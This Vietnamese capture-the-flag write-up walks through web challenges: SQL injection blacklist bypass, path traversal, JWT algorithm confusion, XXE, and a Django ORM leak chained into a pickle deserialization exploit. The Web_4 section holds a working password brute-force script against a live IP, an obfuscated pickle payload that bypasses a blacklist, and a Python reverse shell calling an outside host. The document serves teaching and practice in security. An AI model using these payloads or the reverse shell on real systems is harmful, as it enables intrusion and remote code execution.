

### Web_0

Đây là một challenge SQL Injection cùng với các kỹ thuật bypass blacklist. Đầu tiên ta cùng phân tích mã nguồn đề bài cung cấp:

```php
$user=$_GET['user'];
$pass=$_GET['pass'];
check($user);check($pass);
$sql = @mysqli_fetch_assoc(mysqli_query($db,"SELECT * FROM users WHERE username='{$user}' AND password='{$pass}';"));
```

Đầu tiên, service sẽ nhận 2 parameters gồm user và pass. Tại đây, các giá trị sẽ được kiểm tra bằng hàm `check`, nếu hợp lệ thì tiếp tục thực hiện câu query không bind param. Tại đây sẽ là vị trí chúng ta inject để có thể khai thác. Ta quan tâm tới hàm `check` như sau:

```php
function check($input){
      $forbid = "0x|0b|limit|glob|php|load|inject|moth|day|now|collationlike|regexp|limit|_|information|schema|char|sin|cos|asin|procedure|trim|pad|make|mid";
      $forbid .= "substr|compress|where|code|replace|conv|insert|right|left|cast|ascii|x|hex|version|data|load_file|out|gcc|locate|count|reverse|b|y|z|--";
      if (preg_match("/$forbid/i", $input) or preg_match('/\s/', $input) or preg_match('/[\/\\\\]/', $input) or preg_match('/(--|#|\/\*)/', $input)) {
          die('forbidden');
}
```

Tại hàm này khai báo một biến `forbid` gồm các từ khóa bị cấm tách biệt bởi kí tự `|`. Điểm đặc biệt rằng ở đây sử dụng [operator `.=`](https://www.w3schools.com/php/php_operators.asp) có tác dụng nối 2 chuỗi. Tiếp theo sử dụng `preg_match` để thực hiện so sánh chuỗi bằng regex, chi tiết [PHP: preg_match - Manual](https://www.php.net/manual/en/function.preg-match.php). Điều đặc biệt ở đây là tác giả đã thiết kế sao cho khi nối hai chuỗi này với nhau thì sẽ ra một chuỗi tổng hợp các chuỗi bị cấm khi sử dụng preg_match, ví dụ preg_match("/limit|glob|php|load/i", $input) thì 4 chuỗi này sẽ bị cấm, chính vì như vậy nên ta có thể thấy rằng từ khóa `mid` ở cuối biến forbid được khai báo lần thứ nhất sẽ không bị cấm, tại vì khi nối chuỗi thì forbid sẽ trở thành ... |trim|pad|make|midsubstr|compress|where|...
So when i was reading this, mình đã chắc chắn khẳng định payload sẽ sử dụng `mid`

```php
 if($sql['username']){
     echo 'welcome \o/';
     die();
 }
 else{
     echo 'wrong !';
     die();
 }
```

Nếu chúng ta thành công bypass blacklist thì chương trình sẽ tiếp tục thực hiện response như logic trên. Đây là một ý đồ kinh điển trong những bài boolean-based SQL Injection.

**Bypass blacklist**

Ở đây ta có thể lần lượt bypass các logic được cấu hình. Đầu tiên là cấm việc sử dụng các loại space và comment trong query với 3 biểu thức:

```php
preg_match('/\s/', $input)
preg_match('/[\/\\\\]/', $input)
preg_match('/(--|#|\/\*)/', $input)
```

    `\s` là các kí tự space (space, tab, xuống dòng, ...), `[\/\\\\]` cấm kí tự \ và / , và cái cuối cấm các phương thức comment như --, #, /*. Để bypass space ta có thể dễ dàng sử dụng các dấu ngoặc để bypass. Một document liên quan:

https://hackviser.com/tactics/pentesting/web/sql-injection#space-bypass


Tại đây mình đã thành công bypass logic cấm space khiến chương trình trả về kết quả `True`. Đến đây ta sẽ thực hiện enumarate, tuy nhiên ở đây đã blacklist chuỗi `information` và `schema`  đồng thời chương trình thực hiện trả về kết quả boolean khiến việc dò tìm tên bảng/cột chỉ còn phương pháp duy nhất là brute-force.

Ta sẽ sử dụng word-list để tìm kiếm hiệu quả hơn: [wordlists/sqlmap/common-tables.txt at master · drtychai/wordlists · GitHub](https://github.com/drtychai/wordlists/blob/master/sqlmap/common-tables.txt)


Sau đó thực hiện tấn công, ở đây ta sử dụng việc `select` từ một bảng ta kiểm tra. Nếu bảng đó tồn tại thì chương trình sẽ trả về chuỗi `welcome \o/`. Nếu không tồn tại thì query sẽ trả về lỗi. Dựa vào điều này ta dễ dàng nhận được bảng `flag` qua việc sort lại kết quả trả về theo độ dài response:


Đến đây thì ta chắc chắn sẽ tồn cột `flag` trong bảng `flag` rồi. Tuy vậy ta vẫn có thể kiểm tra bằng phương pháp tương tự với word-list [sqlmap/data/txt/common-columns.txt](https://github.com/sqlmapproject/sqlmap/blob/master/data/txt/common-columns.txt) sau đó regex response với chuỗi `wrong`.


Đến đây ta sẽ thực hiện dump giá trị của cột này. Như mình đã khẳng định chắc chắn sẽ dùng `mid` để khai thác. mid là một hàm tương tự substr có syntax như sau: `mid(str, pos, len)` sẽ trả về một chuỗi với vị trí bắt đầu từ `pos` của chuỗi `str` với độ dài `len`. Ở trong logic blacklist cũng đã cấm một vài ký tự cụ thể như cấm toàn bộ chuỗi chứa kí tự b, z hoặc y. Ta có thể bypass với `ord`, là một hàm có thể lấy mã ascii của một ký tự. Vậy để có thể dump giá trị ta có thể thực hiện kiểm tra

`ord(mid(flag,pos,1)) = 97`, nếu kí tự đầu tiên của giá trị của cột flag là `a` (tức 97 trong ascii) thì sẽ trả về đúng.

Một điều quan trọng là chuỗi `where` cũng đã bị cấm. Ta có thể sử dụng `having` kết hợp `mid` và `min` thay thế, cách dùng cũng hơi giống where, mình có thể demo nhanh như sau:


Mình sẽ phân tích lần lượt cách payload hoạt động. Đầu tiên ta cần một cách nào trỏ đến các kí tự của chuỗi flag, mình sử dụng kết hợp ord mid min tại vì ở đây đang sử dụng `having`.  Trong mysql, thường thì having đi kèm với `order by` thì mới hoạt động. Lý do là vì mọi cột được having xử lý đều phải được xử lý qua aggregate function vì mysql không biết mình sử dụng cột nào.


Khi ta thử thực hiện thì kết quả thành công trả về 1.


Còn nếu không đúng thì sẽ không trả về gì cả. Dựa vào logic này ta thực hiện viết script dump flag bằng cách nhét logic trên vào cụm `'or(logic-here)and'1`, nhờ vậy câu query của chương trình sẽ là `SELECT * FROM users WHERE username='' AND password='' OR (logic-here) AND '1';` sẽ thõa mãn khi logic-here là đúng.


Kết quả trả về chính là flag. Bài này cho chúng ta một số kiến thức về cách bypass khá phức tạp và hay.

### Web_1

Chương trình cho phép người dùng đăng kí / đăng nhập tài khoản. Sau đó cho phép upload file và tải file về. Ta thực hiện kiểm tra lỗ hổng path-traversal thành công:


Tuy nhiên không có nội dung gì đặc biệt ở đây. Ta cũng có thể thực hiện đọc src code với `/download?filename=../app.py`. Trong đây ta quan tâm tới logic vì sao lại xuất hiện lỗ hổng này:

```python
UPLOAD_DIR = 'uploads
download_path = os.path.join(UPLOAD_DIR, filename)
if os.path.exists(download_path) and os.path.isfile(download_path):
    try:
        return send_file(download_path, as_attachment=True)
```

Đây là một snippet code kinh điển của lỗ hổng path-traversal. Tiếp đến ta thực hiện truy tìm các file khác có thể khai thác. Ta có thể sử dụng các word-list thông dụng và phát hiện được ra ngay điểm đến tiếp theo tại `/download?filename=../../../proc/self/environ`:


Thực hiện path-traversal và chương trình trả về flag:


### Web_2

Đây là một bài kinh điển về lỗ hổng JWT algorithm confusion, chi tiết được trình bày tại [Algorithm confusion attacks | Web Security Academy](https://portswigger.net/web-security/jwt/algorithm-confusion)

Chương trình cung cấp cho mỗi người dùng một JWT token với các param như sau:


Ở đây ta nhận thấy JWT đang sử dụng `RS256`, để có thể force được một valid JWT để khai thác với lỗ hổng trên ta cần biết được public key của nó. Mình thực hiện tìm path như sau:


Chỉ chưa đến 1 phút ta đã nhận được public key, tiếp đến ta thực hiện tạo một key HS256:


Copy key và đưa vào một RSA key mới nhờ extension JWT Editor:


Sau đó copy key và thực hiện base64 giá trị này


Sau đó tạo một symmetric key mới với giá trị base64 vừa nhận được vào `k`


Sau đó thực hiện ký với khóa này và truy cập /admin


### Web_3

Ta được cung cấp cho một trang web với form trả lời câu hỏi cơ bản. Request được gửi đi như sau:


Ta chú ý vào gợi ý của bài cung cấp như sau:

- Kiểm tra giao thức truyền tải để nắm bắt cấu trúc request.

- Phân tích metadata cho thấy khả năng linh hoạt trong định dạng trao đổi dữ liệu. Hãy tìm kiếm kênh giao tiếp ẩn.

Với từ khóa là **định dạng trao đổi dữ liệu**, ta có thể thử nghiệm như sau:


Như vậy ta có thể thực hiện gửi dữ liệu với xml, ở đây có thể mắc lỗ hổng XEE với định dạng xml. Ta tiến hành thử nghiệm tiếp như sau:


Đến đây ta đã xác thực được khả năng tiếp nhận dữ liệu dạng xml, ta thực hiện khai thác đọc file source code và flag:


### Web_4

Đây là một bài phức tạp lợi dụng lỗ hổng ORM injection và khai thác với OPCODE pickle bypass blacklist phức tạp.
Source code cho ta thấy được đây là một ứng dụng Django dạng web cơ bản
 có tác dụng register/login và unpickle dữ liệu người dùng. Tại `Dockerfile` ta thấy được service sử dụng sqlite3, docker tạo một file flag-random.txt và cấu hình mật khẩu ngẫu nhiên 128 kí tự cho admin.

Challenge cũng cung cấp cho ta `db.sqlite3`, ta sẽ kiểm tra database xem cấu trúc nó ra sao

[](https://github.com/nglong05/bl/blob/main/images/baocaotask9_image1.png)

Vậy là ở đây ta có bảng auth_user với các trường 
is_superuser, is_staff. Đặc biệt là có vẻ như password không được lưu 
dưới dạng hash mà là plaintext. Đến đây mình đã thử login với mật khẩu `nani` nhưng tất nhiên là không đúng do docker đã thực hiện đặt lại mật khẩu trong quá trình build.

Tiếp theo ta quan tâm tới logic của trang web nằm trong `app/views.py` và `app/sandbox.py`

Tại đây ta được cung cấp 5 entry points bao gồm HomePage, SignupPage, 
LoginPage, LogoutPage và AdminPage. Đầu tiên ta phân tích cách một user
 có thể đăng ký tài khoản ra sao: người dùng nhập thông tin vào 4 field 
username, email, password và confirm_pasword. Nếu thông tin hợp lệ thì 
thực hiện đăng ký người dùng mới như sau:

```python
user = User.objects.create(**user_data)
user.save()
```

Nói một cách dễ hiểu, `create()` cung cấp dev 
một cách nhanh gọn để thực hiện insert giá trị. Tuy nhiên đây không phải
 là cách chính xác để tạo một user mới do không hỗ trợ hash chuỗi mật 
khẩu.

[Difference between User.objects.create_user() vs User.objects.create() vs User().save() in django - Stack Overflow](https://stackoverflow.com/questions/63054997/difference-between-user-objects-create-user-vs-user-objects-create-vs-user)

Tại bài viết Stack Overflow này đã cho ta thấy một ví dụ sử dụng `create_user()`, mật khẩu ở đây đã được tự động hash sử dụng PBKDF2 và SHA-256, tuy nhiên `create()` lưu trữ dữ liệu ở dạng plain text. Điều này hợp lý với việc ta thấy 
password không được hash khi kiểm tra db.sqlite3 ở trên. Để rõ hơn về 
vấn đề này, mình đã thử debug xem create hoạt động ra sao [tại đây](https://github.com/nglong05/bl/blob/main/_B%C3%A1o%20c%C3%A1o%20task9.md#_chain_create), ta dễ thấy django đơn giản chỉ thực hiện câu lệnh INSERT.

Như vậy là ta đã lý giải được tại sao mật khẩu lại là 
plaintext và cách user đăng ký, tiếp tục phân tích các hoạt động khác 
của user: ta nhận thấy rằng khi user thực hiện login hoặc thực hiện hành
 động search trong homepage đều sử dụng:

`user = User.objects.filter(**user_data).first()`

 [Advice to get single object using get() or filter().first()](https://www.reddit.com/r/django/comments/6plqbn/advice_to_get_single_object_using_get_or/)

Tại bài viết này, tác giả đã đề cập tới việc so sánh hai phương thức `.get()` và `.filter().first()`.
 Nói một cách nhanh gọn, .get() chỉ lấy duy nhất 1 đối tượng thỏa mãn 
điều kiện đầu vào trong khi kết hợp .filter().first() sẽ lấy ra đối 
tượng đầu tiên trong các đối tượng được query (tương tự LIMIT 1). Trong 
trường hợp của chúng ta, service đang sử dụng cách thứ hai đồng thời 
nhận trực tiếp userinput qua **kwags cho nên tồn tại lỗ hổng ORM leak 
qua các field lookup.

[Django QuerySet - Filter](https://www.w3schools.com/django/django_queryset_filter.php)

Tại bài viết này của w3school đã giới thiệu về Field lookup, nó hỗ trợ việc tạo ra các WHERE clause một cách cụ thể, một ví dụ:


Quay lại phần code của enpoint HomePage, ở đây sử dụng:

```python
user_data = parse_qs(request.body.decode('utf-8'))
user_data.pop('csrfmiddlewaretoken', None)
user_data = {k: v[0] for k, v in user_data.items()}
try:    users = []    user = User.objects.filter(**user_data).first()
```

Tại đây, ta có thể thêm tùy chỉnh các keywork argument (**kwags) vào trong filter() do `user_data` parse toàn bộ data trong request. Điều đó đồng nghĩa với việc ta có thể thêm các field lookup một cách tùy chỉnh để khai thác.

Ví dụ đơn giản như sau: nếu post data chứa `username=admin` thì backed sẽ thực hiện `User.objects.filter(username="admin").first()` thực hiện trả về kết quả đầu tiên của query. Nhưng nếu ta truyền `username=admin&password__regex=^u` thì `filter(username="admin", password__regex="u").first()` sẽ được thực thi và đồng thời áp dụng thêm điều kiện regex, nếu kết quả
 vẫn trả về thì đồng nghĩa với việc password của admin thỏa mãn regex 
^u.

[PayloadsAllTheThings/ORM Leak/README.md at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/ORM%20Leak/README.md)

Ở tài liệu trên đã cung cấp một số cách để khai thác bao 
gồm việc sử dụng __startswith, __contains và __regex cho trường hợp của 
chúng ta. Logic để khai thác tương tự nhau: brute-force từng kí tự rồi 
quan sát kết quả trả về từ đó trích xuất dữ liệu. Ví dụ như ta có thể 
thử `password__startswith = 'abc'`, nếu kết quả trả về là tài khoản admin thì ta biết mật khẩu bắt đầu với 'abc', lặp lại quá trình để trích xuất hết mật khẩu.

Ta đang làm việc với Sqlite3 nơi LIKE clause không hỗ trợ case-sensitive. Vậy nên ta sẽ sử dụng field lookup `__regex` để trích xuất data.


```python
import requests
import string
from concurrent.futures import ThreadPoolExecutor, as_completed

url = "http://103.197.184.163:8002/home/"
cookies = {
    'csrftoken': 'a1mcE6bavm8TNwMBxPSZDvf2o5xqlvhP',
    'sessionid': '0dxj9jvfz2ajqwf7e66tm4yad6xr5fwy'
}
headers = {
    'Content-Type': 'application/x-www-form-urlencoded'
}

charset = string.ascii_lowercase + string.ascii_uppercase + string.digits
found = "^u"

def send_req(c, prefix):
    current = prefix + c
    data = {
        'csrfmiddlewaretoken': cookies['csrftoken'],
        'password__regex': current
    }
    r = requests.post(url, headers=headers, cookies=cookies, data=data)
    if "admin" in r.text:
        return c
    return None

while True:
    found_char = False
    with ThreadPoolExecutor(max_workers=10) as executor:
        futures = {executor.submit(send_req, c, found): c for c in charset}
        for future in as_completed(futures):
            result = future.result()
            if result is not None:
                found += result
                print(found[1:])
                found_char = True
                break

    if not found_char:
        break
```

ta nhận được mật khẩu của admin và thành công login. `Kpvwmec6swPh6WFFo6BFnf0HKgmr5otfEZj9sSxKNNs9PhsRhCEAOGqVL6VyAiI32EppTmsIeT8kY7aelEvtGkQXsF2t0UKcZmOGvDbPkm6acsKUALXb6zJWmqpRbm8A`

Khi đăng nhập với tài khoản admin ta có thể truy cập page AdminPage và thực hiện hàm unpickle trong `sandbox.py`

```python
payload = (
b'''\x80\x04c__main__
__builtins__.eval
(V__import__('os').system('whoami')
tp0
Rp1
.'''
)
```

Ta sử dụng chain `__main__.__builtins__.eval("__import__('os').system('whoami')")`.
 Như vậy ta thành công vượt qua lớp kiểm tra whitelist ở module. Một 
điểm lưu ý là, ở đây ta cần chỉ rõ protocol được sử dụng là 4 trở lên.

Tiếp theo ta cần phải thực hiện thêm việc bypass logic được thêm: các module
 không được bắt đầu bằng các giá trị trong UNSAFE_NAMES và 
BLACKLISTED_NAMES. Để bypass được ta cần thực hiện một chain phức tạp 
hơn. Một điều khó khăn trong việc craft chain là pickle không hỗ trợ 
việc truy cập trực tiếp value-key như python thông thường mà ta sẽ phải 
tư duy với logic stack để dần truy cập đến attribute mong muốn.

Tuy nhiên, ta không thể trực tiếp craft payload này nhờ opcode vì pickle không hỗ trợ truy cập key-value, ta không thể gọi `__subclasses__()[137]` hay `__globals__['__builtins__']['eval']` trực tiếp. Để giải quyết vấn đề này, ta phải tìm cách truy cập các attribute này nhờ các method callable có sẵn ví dụ `__getattribute__`, `list.__getitem__`, `object.__subclasses__`. Đầu tiên ta cần truy cập tới value index của list `__subclasses__()`

```python
import __main__
def main():pass

mysubclasses = __main__.__class__.__base__.__subclasses__
myatrr = __main__.__class__.__base__.__getattribute__
mysubclasseslist = mysubclasses()                      #[1]
mygetitem = myatrr(mysubclasseslist, '__getitem__')    #[2]
myoswrapclose = mygetitem(155)                         #[3]

print(myoswrapclose) #<class 'os._wrap_close'>
```

Phần code này định nghĩa 2 method và thực thi 3 method chỉ sử dụng những yếu tố pickle có: thực thi với **REDUCE** và đệ quy lấy attribute với proto 4 trở lên. Phân tích như sau:

1. Khi ta thực thi method `object.__subclasses__()` như 
   trình bày trong phần code trên là phần định nghĩa biến mysubclasseslist,
   nó sẽ trả về một list là những class là subclass của object.

2. Khi ta thực thi method `object.__getattribute__(obj, "attr-name")` thì nó sẽ thực hiện trả về thuộc tính attr-name của object obj, hay 
   mình thường hiểu là nó trả về obj.attr-name. Như trong code trên thì nó 
   trả về `object.__subclasses__()__getitem__` . Vốn dĩ là vì lúc này obj là một list, mà list thì sẽ có cái dunder method `__getitem__`.

3. Khi ta thực thi method `list.__getitem__(key)` thì nó đơn giản là trả về list[key]. Ở phần code thì nó trả về `object.__subclasses__()__getitem__(155)` rồi !

Như vậy là ta đã có thể truy cập đến class os._wrap_close chỉ với việc thực thi các method khác nhau một cách vi diệu.

```python
myinit = myatrr(myoswrapclose, '__init__')               #[1]
myglobals = myatrr(myinit, '__globals__')
mybuiltinsdict = myatrr(myglobals, '__getitem__')        #[2]
mybuiltins = mybuiltinsdict('__builtins__')
myevaldict = myatrr(mybuiltins, '__getitem__')           #[3]
myeval = myevaldict('eval')
mycommand = myeval('__import__("os").system("whoami")')

print(mycommand) #nguyenlong05
```

Phân tích phần tiếp theo để đi đến eval:

1. Ta tiếp tục chain bằng method `object.__getattribute__` định nghĩa ở trên, lần lượt đi tới `object.__subclasses__()[137].__init__.__globals__`

2. Lưu ý rằng, lúc này `__globals__` chứa các dict cho nên khi ta trích xuất builtins lại một lần nữa sử dụng `__getitem__`. Ở đây getitem trả về value trong dict cho nên ta truyền giá trị là key vào method getattribute. Cuối cùng ta nhận được `__globals__['__builtins__']`

3. Lặp lại một lần nữa ta nhận được `__globals__['__builtins__']['eval']`,
   chính là method eval. Cuối cùng thực thi hàm này với tham số là command
   cần được thực thi, xác nhận khả năng bypass của payload.

Thực hiện viết lại payload dưới dạng bytecodes của pickles như sau:

```
raw = (
    b"\x80\x04"
    # mysubclasses
    b"c__main__\n__class__.__base__.__subclasses__\n"
    b"(" b"t" b"R"                # () → __subclasses__() -> list
    b"p0\n"                       # memo[0] = subclasseslist
    # myattr
    b"c__main__\n__class__.__base__.__getattribute__\n"
    b"p1\n"                       # memo[1] = object.__getattribute__
    # mygetitem
    b"(" b"g0\n" b"V__getitem__\n" b"t" b"R"
    # myoswrapclose = mygetitem(155)
    b"(" b"I155\n" b"t" b"R"
    b"p2\n"                       # memo[2] = myoswrapclose
    # myinit
    b"g1\n"                       # push __getattribute__
    b"(" b"g2\n" b"V__init__\n" b"t" b"R"
    b"p3\n"                       # memo[3] = myinit
    # myglobals
    b"g1\n" b"(" b"g3\n" b"V__globals__\n" b"t" b"R"
    b"p4\n"                       # memo[4] = myglobals (dict)
    # mybuiltinsdict
    b"g1\n" b"(" b"g4\n" b"V__getitem__\n" b"t" b"R"
    b"p5\n"                       # memo[5] = mybuiltinsdict (bound)
    # mybuiltins
    b"(" b"V__builtins__\n" b"t" b"R"
    b"p6\n"                       # memo[6] = __builtins__ (dict/module)
    # myevaldict
    b"g1\n" b"(" b"g6\n" b"V__getitem__\n" b"t" b"R"
    b"p7\n"                       # memo[7] = myevaldict
    # myeval
    b"(" b"Veval\n" b"t" b"R"
    b"p8\n"                       # memo[8] = eval
    # mycommand
    b"(" b"V__import__(\"os\").system(\"whoami\")\n" b"t" b"R"
    b"."
)
```

Tiếp theo ta cần bypass unicode để bypass lượt 
kiểm tra đầu tiên của service. Những giá trị encode này được
 decode trong quá trình unpickle, còn lượt kiểm tra ban đầu chỉ đơn giản
 là kiểm tra chuỗi bytecodes xem có chứa các giá trị trong blacklist 
không mà thôi. Ví dụ, hàm kiểm tra đầu sẽ nhìn `V__globals_\u005f` là chuỗi `__globals_\u005f` trong khi pickle sẽ nhìn thấy `__globals__`.

```
    b"c__main__\n__class__.__base__.__subclasses__\n"
    b"(" b"t" b"R"
    b"p0\n"
```

Hiện tại, ta đang thực hiện thực thi method ban đầu bằng cách sử dụng opcode c **GLOBAL**. opcode này load module theo tên được truyền vào và không thể dùng trick bypass của opcode **V** được. Vậy ta phải tìm một cách khác để load module mà vẫn dùng opcode V để encode những chuỗi sẽ bị cấm.

```
    b"V__main__\n"
    b"V__class__.__base_\u005f.__subclasses__\n"
    b"\x93"
    b"(" b"t" b"R"
    b"p0\n"
```

Ở protocol 4 mặc định sử dụng opcode **STACK_GLOBAL** thay vì là **GLOBAL** và nó linh hoạt hơn rất nhiều khi có thể load từ stack. Như vậy ta chỉ 
việc push hai chuỗi module và attribute lên stack với opcode **V** rồi dùng **\x93** để lấy object là xong. Như ví dụ trên thì thay vì trực tiếp truyền các giá trị vào GLOBAL thì ta push `__main__` và `__class__.__base__.__subclasses__` lên stack, sau đó thực hiện đặt **MARK**, gói **TUPLE** và **REDUCE** như thường để thực hiện gọi method subclasses(). làm tương tự để bypass và ta có kết quả:


Ta đã thành công gọi method eval của python nên có thể trực tiếp sử dụng các payload revshell của python:

```python
export RHOST="13.213.213.17";
export RPORT=10774;
python -c '
import sys,socket,os,pty;
s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
pty.spawn("sh")
'
```

Ta có thể thực gói đống này lại vào trong `__import__('os').system('....')` để hoàn thiện thực thi revshell. Payload cuối cùng với unicode kí tự `_` và `s`, ở đây ta có thể nhảy vào trong docker hoặc brute force xem os.*wrap_close* nằm ở index nào, trong trường hợp này là 134:

```python
import base64
raw = (
    b"\x80\x04"
    b"V__main__\n"
    b"V__class__.__base_\u005f.__subclasses__\n"
    b"\x93"
    b"(" b"t" b"R"
    b"p0\n"
    b"V__main__\n"
    b"V__class__.__base_\u005f.__getattribute__\n"
    b"\x93"
    b"p1\n"
    b"(" b"g0\n" b"V__getitem__\n" b"t" b"R"
    b"(" b"I134\n" b"t" b"R"
    b"p2\n"
    b"g1\n"
    b"(" b"g2\n" b"V__init__\n" b"t" b"R"
    b"p3\n"
    b"g1\n" b"(" b"g3\n" b"V__globals_\u005f\n" b"t" b"R"
    b"p4\n"
    b"g1\n" b"(" b"g4\n" b"V__getitem__\n" b"t" b"R"
    b"p5\n"
    b"(" b"V__builtins_\u005f\n" b"t" b"R"
    b"p6\n"
    b"g1\n" b"(" b"g6\n" b"V__getitem_\u005f\n" b"t" b"R"
    b"p7\n"
    b"(" b"Veval\n" b"t" b"R"
    b"p8\n"
    b"(V__import_\u005f('o\u0073').sy\u0073tem(\"export RHOST='13.213.213.17';export RPORT=10774;python -c \\\"import sy\u0073,socket,o\u0073,pty;s=socket.socket();s.connect((o\u0073.getenv('RHOST'),int(o\u0073.getenv('RPORT'))));[o\u0073.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn('bash')\\\"\")\n"
    b"t"
    b"R"
    b"."
)
print(base64.b64encode(raw))
```


### Web_5


